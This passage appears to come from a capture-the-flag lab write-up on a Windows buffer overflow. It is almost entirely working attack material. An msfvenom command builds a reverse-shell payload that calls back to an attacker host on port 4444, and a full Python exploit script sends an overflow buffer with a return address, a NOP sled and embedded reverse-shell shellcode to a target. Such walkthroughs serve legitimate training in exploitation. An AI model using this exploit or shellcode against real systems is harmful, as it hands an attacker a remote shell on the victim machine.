 ### Exploit - Staging

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to is to update our code with our payload and run it against the program.

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

#### **exploit.py - Code Changes #2**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = ""
	offset = 146
	overflow = "A" * offset
	retn = "\xc3\x14\x04\x08"
	padding = "\x90" * 16
	payload = ( "\xbf\x99\x11\x01\x8f\xdd\xc6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x7e\x12\x83\xc6\x04\x03\xe7\x1f\xe3\x7a\xeb\xc8\x61"
"\x84\x13\x09\x06\x0c\xf6\x38\x06\x6a\x73\x6a\xb6\xf8\xd1\x87"
"\x3d\xac\xc1\x1c\x33\x79\xe6\x95\xfe\x5f\xc9\x26\x52\xa3\x48"
"\xa5\xa9\xf0\xaa\x94\x61\x05\xab\xd1\x9c\xe4\xf9\x8a\xeb\x5b"
"\xed\xbf\xa6\x67\x86\x8c\x27\xe0\x7b\x44\x49\xc1\x2a\xde\x10"
"\xc1\xcd\x33\x29\x48\xd5\x50\x14\x02\x6e\xa2\xe2\x95\xa6\xfa"
"\x0b\x39\x87\x32\xfe\x43\xc0\xf5\xe1\x31\x38\x06\x9f\x41\xff"
"\x74\x7b\xc7\x1b\xde\x08\x7f\xc7\xde\xdd\xe6\x8c\xed\xaa\x6d"
"\xca\xf1\x2d\xa1\x61\x0d\xa5\x44\xa5\x87\xfd\x62\x61\xc3\xa6"
"\x0b\x30\xa9\x09\x33\x22\x12\xf5\x91\x29\xbf\xe2\xab\x70\xa8"
"\xc7\x81\x8a\x28\x40\x91\xf9\x1a\xcf\x09\x95\x16\x98\x97\x62"
"\x58\xb3\x60\xfc\xa7\x3c\x91\xd5\x63\x68\xc1\x4d\x45\x11\x8a"
"\x8d\x6a\xc4\x1d\xdd\xc4\xb7\xdd\x8d\xa4\x67\xb6\xc7\x2a\x57"
"\xa6\xe8\xe0\xf0\x4d\x13\x63\xf5\x9b\x2e\xaa\x61\x9e\x50\x5d"
"\x2e\x17\xb6\x37\xde\x71\x61\xa0\x47\xd8\xf9\x51\x87\xf6\x84"
"\x52\x03\xf5\x79\x1c\xe4\x70\x69\xc9\x04\xcf\xd3\x5c\x1a\xe5"
"\x7b\x02\x89\x62\x7b\x4d\xb2\x3c\x2c\x1a\x04\x35\xb8\xb6\x3f"
"\xef\xde\x4a\xd9\xc8\x5a\x91\x1a\xd6\x63\x54\x26\xfc\x73\xa0"
"\xa7\xb8\x27\x7c\xfe\x16\x91\x3a\xa8\xd8\x4b\x95\x07\xb3\x1b"
"\x60\x64\x04\x5d\x6d\xa1\xf2\x81\xdc\x1c\x43\xbe\xd1\xc8\x43"
"\xc7\x0f\x69\xab\x12\x94\x89\x4e\xb6\xe1\x21\xd7\x53\x48\x2c"
"\xe8\x8e\x8f\x49\x6b\x3a\x70\xae\x73\x4f\x75\xea\x33\xbc\x07"
"\x63\xd6\xc2\xb4\x84\xf3"
		)
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
```